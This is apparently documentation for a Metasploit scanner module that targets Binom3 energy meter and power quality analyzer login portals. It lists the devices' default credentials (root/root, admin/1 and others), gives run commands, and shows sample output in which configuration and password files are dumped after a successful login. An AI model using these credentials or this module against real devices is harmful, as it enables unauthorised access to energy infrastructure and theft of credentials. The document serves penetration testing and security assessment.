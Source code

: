 This module scans for Binom3 Multifunctional Revenue Energy Meter and Power Quality Analyzer management login portal(s), and attempts to identify valid credentials. There are four (4) default accounts - 'root'/'root', 'admin'/'1', 'alg'/'1', 'user'/'1'. In addition to device config, 'root' user can also access password file. Other users - admin, alg, user - can only access configuration file. The module attempts to download configuration and password files depending on the login user credentials found.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/binom3_login_config_pass_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/binom3_login_config_pass_dump
msf auxiliary(binom3_login_config_pass_dump) > set rhosts 1.3.3.7
msf auxiliary(binom3_login_config_pass_dump) > run

[+] 1.3.3.7:80 - Binom3 confirmed...
[*] 1.3.3.7:80 - Trying username:"root" with password:"root"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "root":"root"
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping configuration
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000003_moduletest_1.3.3.7_Binom3_config_165927.txt
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7 - dumping password file
[+] ++++++++++++++++++++++++++++++++++++++
[+] 1.3.3.7:80 - File retrieved successfully!
[*] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000004_moduletest_1.3.3.7_Binom3_passw_010954.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
